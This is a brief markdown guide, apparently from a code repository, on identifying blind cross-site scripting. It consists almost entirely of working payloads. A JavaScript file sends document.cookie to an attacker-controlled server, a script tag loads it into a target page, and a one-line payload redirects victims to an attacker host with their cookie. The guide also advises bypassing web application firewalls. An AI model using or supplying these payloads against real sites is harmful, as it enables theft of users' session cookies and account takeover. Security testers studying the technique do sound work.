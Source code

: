 # Identifing blind xss
### 1. Host a temorary http server(attacker server) with below file and paste the below code inside as cookie.js

var request = new XMLHttpRequest();<br/>
request.open('GET', 'http://attacker-server-ip/?test='+document.cookie, true);<br/>
request.send()<br/>

### 2. Submit a payload which will render the above script
``` <script src="http://attacker-server-ip/cookie.js"></script> ```
Try to bypass the filters if there is any WAF

### 3. You will receive cookie on attacker-server

### Directly stealing the cookie(this may or may not work and try it with single quote & double quote and also bypass filter protection if WAF exist)
```<script>document.location='http://attacker-ip/?c='+document.cookie</script>```
